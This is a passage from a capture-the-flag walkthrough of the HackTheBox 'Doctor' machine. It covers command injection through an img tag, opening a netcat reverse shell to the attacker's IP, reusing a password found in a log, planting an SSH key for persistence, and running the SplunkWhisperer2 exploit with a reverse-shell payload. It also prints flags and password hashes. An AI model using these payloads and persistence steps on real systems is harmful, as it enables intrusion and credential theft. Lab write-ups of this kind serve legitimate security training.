     Also, shell injection works without the archive page: `<img src=http://10.10.14.131/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.131'$IFS'4444')/>`.

11. Linpeas (`./linpeas.sh -a 2>&1 | tee linpeas_report.txt`) finds backup file `/var/log/apache2/backup` with has this line in it: `/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"`. You can open [linpeas_report_web.txt](./linpeas_report_web.txt) with `less -R linpeas_report_web.txt`

12. Linpeas users:

    ```
    [+] Users with console
    root:x:0:0:root:/root:/bin/bash
    shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
    splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
    web:x:1001:1001:,,,:/home/web:/bin/bash
    ```

    Trying `Guitar123` as the password for `shuan` works: `su shaun`.

13. Run `run persist.authorized_key user=shaun backdoor_key=/home/kali/Downloads/key` in local `pwntools` shell for persistance.

14. `cat /home/shaun/user.txt`: `da773977d514b6d63e3233dbb30961fd`.

15. Run `./linpeas.sh -a 2>&1 | tee linpeas_report.txt` and `download linepeas_report.txt`. You can open [linpeas_report_shaun.txt](./linpeas_report_shaun.txt) with `less -R linpeas_report_shaun.txt`.

16. Find `1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S` in `/opt/clean/site.db` so the "Doctor Secure Messaging" credentials are `admin@doctor.htb:$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S`

17. This is a bcrypt hash as shown by `/home/web/blog/flaskblog/users/routes.py`. Crack it (`$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S`) with `hashcat -m 3200 -a 0 -o cracked hash /usr/share/wordlists/rockyou.txt`. Cracking didn't work.

18. `cat /home/web/blog.sh` contains `SECRET_KEY=1234 SQLALCHEMY_DATABASE_URI=sqlite://///home/web/blog/flaskblog/site.db /usr/bin/python3 /home/web/blog/run.py`

19. CUPS running at `127.0.0.1:631`

20. Try splunk login `shaun:Guitar123` at `https://10.10.10.209:8089/services/` which works. Time to test the exploit I found earlier ([cnotin/SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)).

21. `git clone https://github.com/cnotin/SplunkWhisperer2` then `pwncat 0.0.0.0:4632` then run the exploit: `python3 PySplunkWhisperer2_remote.py --username shaun --password Guitar123 --lhost 10.10.14.131 --lport 46321 --host 10.10.10.209 --payload 'nc.traditional -e /bin/sh 10.10.14.131 4632'`.

22. Need to use `nc.traditional` or `nc [ServerAddress] [ServerPort] 0<f | /bin/sh -i 2>&1 | tee f` because  according to [‘Neutered’ Netcat? No prob!](https://medium.com/@dharma.unik/neutered-netcat-no-prob-1ac188449d1). This is because netcat on Mac and OpenBSD netcat on Ubuntu have the `-e` switch disabled.

23. `cat /root/root.txt`: `006957ab28b0297079fdd8558031768e`

24. Root `/etc/shadow`:

    ```
    root:$6$384TbSO3bB1PWLT1$U8U.j.zBLXobhorPDxOMRZh4eE86lcn7C0dvqRvfJ9qDzreti8HDvXwFZccDat9/HJRNwu04ErVxo3mUwVbs5.:18512:0:99999:7:::
    ```
